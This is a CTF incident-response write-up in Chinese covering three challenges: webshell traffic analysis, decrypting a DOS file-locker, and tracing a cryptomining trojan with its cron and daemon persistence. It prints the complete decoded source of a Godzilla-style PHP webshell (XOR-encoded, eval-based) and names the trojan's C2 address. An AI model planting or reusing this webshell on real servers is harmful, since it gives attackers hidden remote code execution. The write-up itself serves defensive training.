 ```yaml
---
date:
  created: 2025-09-27
  updated: 2025-10-04
tags:
  - Solar
  - CTF
comments: true
---
```


# Solar 应急响应赛 9 月 Writeup

## Wireshark

一个 Webshell 流量包，有大量的 HTTP/TCP 流量记录，进行追踪（这里以最后一个流为例）；攻击者使用 `pass` 传入经过 Base64 编码与反转的参数，解码后如下：

```php
# 1qaz2wsx3edc=eu1uNDRjMzYyYjz+u2uwAH1mNsWC9MvudxUD4GxD2vZHYhmcslPc4AT6kvwn72TiprEftRcyZvWaASZ2twUSoSXCZHZrgXp1OrZJTzbT5eJdLiAUCd1+qUmpgl2Orlfucw+sWVNIRc8GzsXv8ODt4jV5jXn/LQCpCbmD2OihJd4HtL0BEOlzQGrMYUiFNRFgou2Zmus5JThj7ts0VATS5/BmZjQ=
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='1qaz2wsx3edc';
$payloadName='payload';
$key='0eff44c362b13fa2';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
        eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

原命令在经过 Base64 解码后进行加密执行；命令执行的结果经过加密后，插入到 MD5 字符串中。在 PHP 环境中进行解码（在这之后还要用 gunzip 解压一次），得到结果：

```php
echo base64_encode(encode(base64_decode("eu1uNDRjMzYyYjz+u2uwAH1mNsWC9MvudxUD4GxD2vZHYhmcslPc4AT6kvwn72TiprEftRcyZvWaASZ2twUSoSXCZHZrgXp1OrZJTzbT5eJdLiAUCd1+qUmpgl2Orlfucw+sWVNIRc8GzsXv8ODt4jV5jXn/LQCpCbmD2OihJd4HtL0BEOlzQGrMYUiFNRFgou2Zmus5JThj7ts0VATS5/BmZjQ="), $key));
```

```bash
sh -c "cd "/var/www/html/";
echo -n "ZmxhZ3tjY2ViZGI3OC00YjVjLTQyNTItYjIwYS0wMDM5OTEzYzVjOTR9" | base64 -d" 2>&1
```

由此得到 Flag 为 `flag{ccebdb78-4b5c-4252-b20a-0039913c5c94}`。

## HAPPY

16 位 DOS 可执行程序，需要借助汇编代码静态分析。基本过程：

- 打开 `FLAG.TXT` 明文
- 加密输出 `FLAG.ENC` 密文

加密过程：

- 写入 `ZX_LOCK` 头字节
- 读取时钟信息，写入两个字节（也是后面加密的种子）
- 汇编操作（直接模拟即可）

解密脚本：

```python
def decode_flag_enc(path):
    with open(path, "rb") as f:
        data = f.read()

    # Magic Bytes
    assert data[:7] == b"ZX_LOCK"
    cl = data[7]

    # Encrypt Key
    di = int.from_bytes(data[8:10], "little")
    enc_data = data[10:]

    # Apply Padding
    if cl == 1 and len(enc_data) % 2 != 0:
        enc_data += b"\x00"

    # Decryption
    result = bytearray()
    for i in range(0, len(enc_data), 2):
        ax = int.from_bytes(enc_data[i:i+2], "little")
        di = (di + 0xFADE) & 0xFFFF
        cx = ax & di
        cx = (~cx) & 0xFFFF
        dx = ax & cx
        dx = (~dx) & 0xFFFF
        ax = dx
        dx = di & cx
        dx = (~dx) & 0xFFFF
        ax = ax & dx
        ax = (~ax) & 0xFFFF
        result += ax.to_bytes(2, "little")

    if cl == 1 and enc_data[-1] == 0:
        result = result[:-1]
    return result

if __name__ == "__main__":
    decoded = decode_flag_enc("FLAG.ENC")
    print(decoded.decode(errors="replace"))
```

得到 Flag 为 `flag{D0s_L0ck3r_WitH_n4Nd_ExpRs!|solarsec_202509}`。

## 特洛伊挖矿木马事件排查

你是一名初级安全工程师，运维团队报告，公司的一台核心开发服务器（Ubuntu 22.04 LTS）出现CPU使用率异常飙高告警及安全设备检出外联挖矿事件。现在，你需要登录该服务器，排查并处置这一安全事件，并最终找出问题的根源。账号：root，密码：P@ssw0rd

### 挖矿木马

靶机我们只能登录 root 账户，首先分析进程：

```bash
# 没有 htop，使用 ps aux 列出进程
ps aux
```

在结果中发现一个位于 `/tmp` 的高占用程序，极为可疑，应为木马。故 Flag 1 为 `flag{/tmp/kworkerds}`。

![](img/09/malware-process.png)

尝试将木马提取出来单独分析，但只能找到一个带参字符串，无法实际地址，考虑在系统中分析：

```bash
netstat
```

在结果中发现两个 IP 外连地址，经尝试后发现 Flag 2 为 flag{104.21.6.99:10235}。

![](img/09/external-connection.png)

### 溯源

尝试销毁进程并清除木马：

```bash
kill 306
rm /tmp/kworkerds
# Operation not permitted
```

未能删除文件且出现了新的木马进程，考虑有任务计划（`cron`）。进一步排查，在 `/etc/cron.d` 发现了可疑的任务计划文件 `0guardian`，但经过提交，其并不是守护进程脚本文件。

于是变换思路，先使用[题目给出的网站](http://chat.internal-dev.net:8081)通过聊天排查。

- 小张执行了重启脚本 `restart_app.sh`，简单分析脚本内容，没有发现问题；
- 追问小王，发现其从搜索引擎获取了工具，怀疑是木马来源，获得线索。

![](img/09/hints-in-chat.png)

故 Flag 4 为 `flag{http://www.superlog-pro.com}`。登陆该网站，分析安装程序：

![](img/09/provided-installer.png)

通过逆向，在程序中发现了植入木马的过程，以及写守护进程文件的函数：

![](img/09/guardian-method.png)

确定 Flag 3 为 `flag{/usr/bin/.0guardian}`。接着分析字符串，得到受到感染的程序如下：

![](img/09/infected-binary.png)

根据题意，得到 Flag 5 为 `md5(/bin/ls,/bin/ps,/bin/cat,/bin/rm,/bin/ss,/usr/bin/stat,/usr/bin/top,/usr/bin/wget,/usr/bin/curl,/usr/bin/vi,/usr/bin/sudo)` -> `flag{dac48e98a53b81b0218e2156e364f7ba}`。

### 恢复

使用 `/deb_final` 中的软件包恢复程序：

```bash
cd /deb_final
# 安装目录下所有包
dpkg -i *
```

获得 `/var/flag/1` 对应 Flag 6：

![](img/09/first-flag.png)

最后进行进一步清理：

```bash
# 先停止计划任务服务，避免木马再次启动
systemctl stop cron

# 删除任务计划与守护进程
rm /etc/cron.d/0guardian
rm /usr/bin/.0guardian

# 销毁木马进程并清除木马
kill "<PID of trojan>"
rm /tmp/kworkerds

# 恢复服务运行
systemctl start cron
```

获得 `/var/flag/2` 对应 Flag 7：

![](img/09/second-flag.png)
